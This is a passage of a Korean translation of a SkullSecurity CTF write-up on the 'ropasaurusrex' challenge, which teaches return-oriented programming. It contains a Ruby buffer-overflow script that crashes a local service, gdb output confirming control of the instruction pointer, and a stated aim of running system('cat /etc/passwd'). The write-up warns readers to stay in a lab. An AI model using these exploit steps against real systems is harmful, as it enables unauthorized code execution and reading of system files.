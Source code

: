 이건 당신의 시스템을 익스플로잇 당하기 쉽게 만든다는 것을 알아둬라. 그러니 이걸 실험실 환경 바깥에서 하는 건 추천하지 않는다!

초반 익스플로잇을 위한 루비 코드다:

``` ruby
$ cat ./sploit.rb
require 'socket'

s = TCPSocket.new("localhost", 4444)

# Generate the payload
payload = "A"*140 +
  [
    0x42424242,
  ].pack("I*") # Convert a series of 'ints' to a string

s.write(payload)
s.close()
```

`ruby ./sploit.rb`를 통해 실행시키면 서비스 크래시를 볼 것이다:

``` sh
connect to [127.0.0.1] from debian-x86.skullseclabs.org [127.0.0.1] 53451
Segmentation fault (core dumped)
```

그리고 gdb를 통해 이게 알맞은 위치에서 크래시를 일으킨다는 걸 확인할 수 있다:

``` sh
gdb --quiet ./ropasaurusrex core
[...]
Program terminated with signal 11, Segmentation fault.
#0  0x42424242 in ?? ()
```

이게 익스플로잇의 시작이다!

## <a id="how-to-waste-time-with-aslr"></a>어떻게 ASLR로 시간을 낭비하는가

이 섹션을 '시간 낭비'라고 하는 이유는, 내가 ASLR이 적용되어 있다는 것을---그 때---깨닫지 못했기 때문이다. 하지만 ASLR이 적용되어 있지 않다고 가정하는 것은 이 문제를 훨씬 교육하기 좋은 퍼즐로 만들어준다. 그러니 지금은 ASLR에 대해 걱정하지 말자---실제로, ASLR을 _정의_조차 하지 말자. 다음 섹션에 나올 것이다.

좋다, 이제 우린 뭘 하고 싶은가? 우린 취약한 프로세스를 가지고 있고, [libc][] 공유 라이브러리도 있다. 다음 단계는 뭔가?

[libc]: https://en.wikipedia.org/wiki/C_standard_library

음, 궁극적인 목표는 시스템 명령어를 실행하는 것이다. [stdin과 stdout][stdin and stdout]이 모두 [소켓][socket]에 연결되어 있으므로, 예를 들어 우리가 `system("cat /etc/passwd")`를 실행할 수 있다면, 끝난 거다! 이걸 할 수 있으면, 우린 어떤 명령어든 실행할 수 있다. 하지만 그건 두 가지 조건을 포함한다:

[stdin and stdout]: https://en.wikipedia.org/wiki/Standard_streams
[socket]: https://en.wikipedia.org/wiki/Network_socket

1. `cat /etc/passwd` 문자열을 메모리 어딘가에 넣기
2. `system()` 함수 실행하기

### <a id="getting-the-string-into-memory"></a>메모리에 문자열 넣기

메모리에 문자열을 넣는 건 실제로 두 소단계를 포함한다:


[SkullSecurity]: https://blog.skullsecurity.org
[Ron Bowes]: https://blog.skullsecurity.org/author/ron
[external-url]: https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming
[hindsight]: http://knowyourmeme.com/memes/captain-hindsight
[cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[ROP]: https://en.wikipedia.org/wiki/Return-oriented_programming
[my writeup of cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[return into libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[DEP]: https://en.wikipedia.org/wiki/Data_Execution_Prevention
[return]: https://en.wikipedia.org/wiki/Return_statement
[stack]: https://en.wikipedia.org/wiki/Call_stack
[my assembly tutorial]: https://blog.skullsecurity.org/wiki/index.php/The_Stack
[^1]: 링크가 [바뀌었다](https://wiki.skullsecurity.org/Assembly).
[Stack overflows]: https://en.wikipedia.org/wiki/Stack_overflow
[removed by the calling function]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
[except when they're not]: https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall
[Book of Intel]: http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html
[little endian]: https://en.wikipedia.org/wiki/Endianness
[0]: https://en.wikipedia.org/wiki/Zero_page
[pattern_create.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_create.rb
[pattern_offset.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_offset.rb
[xinetd]: https://en.wikipedia.org/wiki/Xinetd
[netcat]: https://en.wikipedia.org/wiki/Netcat
[.data]: https://en.wikipedia.org/wiki/Data_segment
[core dump]: https://en.wikipedia.org/wiki/Core_dump